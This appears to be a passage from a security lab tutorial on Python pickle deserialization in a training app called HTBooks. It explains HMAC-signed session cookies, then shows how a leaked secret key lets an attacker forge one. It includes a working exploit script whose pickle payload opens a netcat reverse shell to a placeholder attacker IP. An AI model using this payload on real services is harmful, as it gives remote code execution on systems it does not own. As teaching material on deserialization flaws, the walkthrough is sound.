 ```python
```

Running the server and logging in, we can see the new cookie that `HTBooks` generates. It comes in the format `base64(pickle(Session)).base64(hmac)`:

![](WEG4Vxo5c5Eo.png)

Changing any byte of the pickled data or the HMAC results in the authenticity check failing and the cookie not being deserialized (since it can not be trusted).

While this update does prevent the attack from before, if we were somehow able to read files from the server and read the contents of `util/auth.py` and `util/config.py` we could carry out the same attacks, just with the extra step of calculating the HMAC.

Note that this is a hypothetical scenario that requires an extra vulnerability in the system to exist (arbitrary file read), so this is not to say that HMACs are insecure.

Assuming `HTBooks` implemented this HMAC verification, and we were able to read the contents of `util/config.py` and `util/auth.py`, let's quickly walk through obtaining RCE. First, set up the folder structure as before:

```shell
tree exploit
exploit
├── exploit.py
└── util
    └── config.py

```

Next, copy `util/config.py` from `HTBooks` into our exploit `util/config.py`:

```python
# HTBooks GmbH & Co. KG
# 10.10.2022

DB_NAME = "htbooks.sqlite3"
AUTH_COOKIE_NAME = "auth_8bH3mjF6n9"
SECRET_KEY = "99308b5cf8de84fe5573a1a775406423"

```

Finally, we just need to modify our `exploit.py` from the RCE section to generate the corresponding HMAC value:

```python
import pickle
import base64
import hashlib
import hmac
import os
import util.config

class RCE:
    def __reduce__(self):
        return os.system, ("nc -nv <ATTACKER_IP> 9999 -e /bin/sh",)

r = RCE()
p = pickle.dumps(r)
h = hmac.new(util.config.SECRET_KEY.encode(), p, hashlib.sha512).digest()
c = base64.b64encode(p) + b'.' + base64.b64encode(h)
print(c.decode())

```
